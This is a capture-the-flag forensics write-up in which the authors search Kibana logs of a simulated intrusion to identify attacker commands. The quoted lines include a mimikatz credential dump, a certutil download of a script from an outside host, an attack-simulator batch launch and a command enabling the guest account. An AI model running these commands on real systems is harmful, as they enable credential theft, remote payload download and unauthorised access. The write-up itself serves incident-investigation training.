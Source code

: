 # Hunting into the wild (forensics, 972p, 27 solved)

## Description

```  
We received a report from our colleagues that one of the computers started
behaving strangely and our analyst limited the investigation (based on
interviews with the employees) for the period 3.12.2020 - 4.12.2020 when he
thinks the malicious events were triggered in the network system. Can you
please help us learn more about the situation?

Q1. Some corrupted employees tried to dump admin passwords, using a popular
script among hackers, but we don’t know exactly its name. Can you help us in
the investigation? Flag format: CTF{process_name}

Q2. For us, it’s very difficult to make the difference between a legit and a
malicious command using Windows native tools. Can you please identify what
command was used by the attacker when downloading the malware on our system?
Flag format: command line used by the attacker

Q3. We also know that the attackers used multiple attacking persistent threats
& scripts when attacked our systems. Can you please help us determine what is
the name of the initial script used for performing the attack? Flag format:
CTF{script_name)

Q4. Victims to these attacks reported that a new admin account was created on
their operating machines. What is the command used by the attacker to activate
the new account? Flag format: command line  
```

In the task we get an archive with ELK stack deployment with some indexed data
(not attached).

## Initial setup

Unpack, docker-compose up and hope for the best.

## Searching through logs

The idea of this task is to query Kibana and find answers to the questions.  
This is actually a really nice and practical task!

### Q1

We suspect the tool used is `mimikatz` and there is for example
`sekurlsa::LogonPasswords` command.  
Looking for that we find:

```  
C:\TMP\mim.exe sekurlsa::LogonPasswords > C:\TMP\o.txt  
```

So the answer is `ctf{mim.exe}`

### Q2

This was the hardest one, because it's very unclear what is `malware` in this
context, and at which point.  
It was clear that there was this `APTSimulator` toolset on the machine, so we
guessed we need to figure out where did it come from.  
Finally we pinpointed:

```  
certutil.exe  -urlcache -split -f
https://raw.githubusercontent.com/NextronSystems/APTSimulator/master/download/cactus.js
C:\Users\Public\en-US.js  
```

which passed as flag.

### Q3

If we look for first references to `APTSimulator` we can find:

```  
C:\Windows\system32\cmd.exe /c
""""C:\Users\IEUser\Desktop\APTSimulator\APTSimulator.bat  
```

So `ctf{APTSimulator.bat}`

### Q4

We first checked how account can actually be activated on windows via `net
user` and the command is `/active:yes` and looking for that gave us:

```  
net user guest /active:yes  
```

which validated as last flag.

Original writeup
(https://github.com/TFNS/writeups/tree/master/2020-12-05-DefCampCTF/hunting).